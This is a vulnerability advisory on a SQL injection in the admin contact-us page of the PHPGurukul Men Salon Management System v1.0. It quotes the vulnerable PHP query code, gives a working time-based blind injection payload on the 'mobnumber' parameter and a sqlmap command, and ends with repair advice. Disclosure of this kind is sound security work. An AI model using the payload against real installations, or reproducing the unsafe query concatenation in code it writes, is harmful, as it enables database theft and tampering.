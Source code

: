 # Title: [sql-inject] in [Men-Salon-Management-System] <= [v1.0]
**BUG_Author**: [1098024193,yaklang. io]

---

## Product Information  产品信息
- **Vendor Homepage**: [link](https://phpgurukul.com/men-salon-management-system-using-php-and-mysql/)
- **Software Link**: [download-link](https://phpgurukul.com/?sdm_process_download=1&download_id=14066)
- **Affected Version**: [<= v1.0]
## Vulnerability Details
### Vulnerable Files
- /admin/contact-us.php
### Vulnerability Type
**SQL Injection Vulnerability** (CWE-89: SQL Injection)
### Root Cause
The code directly concatenates user input into SQL query strings without any parameterization or input validation, allowing attackers to inject malicious SQL code.
```php
line:18
if(isset($_POST['submit']))
  {
    $bpmsaid=$_SESSION['bpmsaid'];
     $pagetitle=$_POST['pagetitle'];
$pagedes=$_POST['pagedes'];
$email=$_POST['email'];
$mobnumber=$_POST['mobnumber'];
$timing=$_POST['timing'];
     
    $query=mysqli_query($con,"update tblpage set PageTitle='$pagetitle',Email='$email',MobileNumber='$mobnumber',Timing='$timing',PageDescription='$pagedes' where  PageType='contactus'");
    if ($query) {
    
    echo '<script>alert("Contact Us has been updated")</script>';
  }
  else
    {
      echo '<script>alert("Something Went Wrong. Please try again.")</script>';
    }
  
}
```
## Impact
- Unauthorized access to database information
- Potential exposure of sensitive information (such as user passwords)
- Possible database corruption or data manipulation
## Description
1. Vulnerability Details:
- During the security review of "Men Salon Management System",I discovered a critical SQL injection vulnerability "/admin/contact-us.php" file. This vulnerability stems from insufficient user input validation of the 'mobnumber' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.
2. Attack Payload Examples:
```bash
Parameter: mobnumber (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pagetitle=Contact Us&email=info@gmail.com&mobnumber=7896541236' AND (SELECT 3235 FROM (SELECT(SLEEP(5)))KBOo) AND 'xfxx'='xfxx&timing=10:30 am to 8:30 pm&pagedes=                                        890,Sector 62, Gyan Sarovar, GAIL Noida(Delhi%2&submit=
```
## CodeScan
This vulnerability is found by [IRify](https://github.com/wlingze/IRify_scan/issues/ssa.to) :

![Image](/Men-Salon-Management-System/image/SQL1.png)

## Proof by the tool of Sqlmap
```bash
sqlmap  -u  "http://127.0.0.1/msmspdemo/admin/contact-us.php" --data "pagetitle=Contact+Us&email=info%40gmail.com&mobnumber=7896541236&timing=10%3A30+am+to+8%3A30+pm&pagedes=1&submit="  --dbs
```

![Image](/Men-Salon-Management-System/image/SQL2.png)+

this valnerability validation by [Yakit](https://www.yaklang.io/)

## Suggested repair

1. Use prepared statements and parameter binding:
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. Input validation and filtering:
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. Minimize database user permissions:
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. Regular security audits:
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
